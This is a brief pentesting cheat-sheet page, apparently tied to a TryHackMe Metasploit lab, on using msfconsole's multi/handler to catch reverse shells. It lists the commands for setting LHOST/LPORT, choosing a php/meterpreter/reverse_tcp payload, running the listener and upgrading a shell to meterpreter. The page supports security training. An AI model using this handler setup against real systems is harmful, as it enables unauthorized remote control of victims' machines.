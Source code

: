 # msfhandler

[![metasploitexploitation](../../../../../_badges/thmp/metasploitexploitation.svg)](https://tryhackme.com/room/metasploitexploitation)

<div class="row row-cols-md-2"><div>

The msfconsole can be used to catch reverse shells. Some reverse shell may be upgradable to a [meterpreter](../index.md#meterpreter), which is the main goal.

* First, load the exploit, and define LHOST/LPORT 

```ps
$ msfconsole -q
msf6> use multi/handler
msf6 exploit('multi/handler')> setg LHOST tun0
msf6 exploit('multi/handler')> setg LPORT 4444
```

* Select the payload that would be appropriate

```ps
# example
msf6 exploit('multi/handler')> set PAYLOAD php/meterpreter/reverse_tcp
```
</div><div>

* Run the catcher, and wait for incoming connections.

```ps
msf6 exploit('multi/handler') > run
# WAIT
# OK session created
meterpreter> help # see what you can do
```

➡️ Your shell may not be a meterpreter, so you may try to [upgrade it](../index.md#meterpreter).
</div></div>